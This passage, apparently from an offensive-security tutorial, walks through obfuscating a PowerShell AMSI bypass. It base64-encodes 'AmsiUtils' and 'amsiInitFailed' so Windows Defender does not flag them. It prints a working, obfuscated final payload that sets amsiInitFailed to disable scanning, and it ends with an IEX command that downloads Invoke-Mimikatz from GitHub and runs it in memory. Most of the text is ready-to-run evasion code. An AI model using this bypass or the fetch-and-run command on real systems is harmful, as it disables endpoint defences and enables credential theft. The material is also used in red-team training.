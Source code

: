 ![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/d940fc02-53cf-4f34-b269-108d0c136a14)

+ We can see this way we have encoded *AmsiUtils* without triggering Defender
+ Lets try the same for *amsiInitFailed* by splitting it into 3 parts
  1. *amsi*
  2. *Init*
  3. *Failed*

```powershell
# Encoding Payload
PS:\> $Text = 'amsi';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
PS:\> $Text = 'Init';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
PS:\> $Text = 'Failed';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText

# Decoding Paylaod
PS:\> $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('YQBtAHMAaQA=')) + $([System.Text.Encoding]::Unicode.GetString($([System.Convert]::FromBase64String('SQBuAGkAdAA=')))) + $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RgBhAGkAbABlAGQA'))))
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/e4712ca9-4343-4e28-9d25-ef8eff1c64d2)

+ As we can see, we have encoded *amsiInitFailed* also without triggering Defender.

## <span style="color:lightgreen">Final Payload</span>

Now that we crafted the final payload to Patch AMSI, let us look back at the original AMSI bypass code.

```powershell
PS:\> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

+ All we need to do now is replace *AmsiUtils* and *amsiInitFailed* with the base64 encoded payload and concat the rest of the string.

```powershell
PS:\> [Ref].Assembly.GetType($('System.Management.Automation.')+$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('QQBtAHMAaQA=')))+$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('VQB0AGkAbABzAA==')))).GetField($([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('YQBtAHMAaQA=')) + $([System.Text.Encoding]::Unicode.GetString($([System.Convert]::FromBase64String('SQBuAGkAdAA=')))) + $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RgBhAGkAbABlAGQA')))),$('NonPublic,Static')).SetValue($null,$true)
```

+ For confirmation, we can download and execute `Mimikatz.ps1` in the memory and check if its triggering Defender.

```powershell
PS:\> IEX(iwr -uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -UseBasicParsing)
```
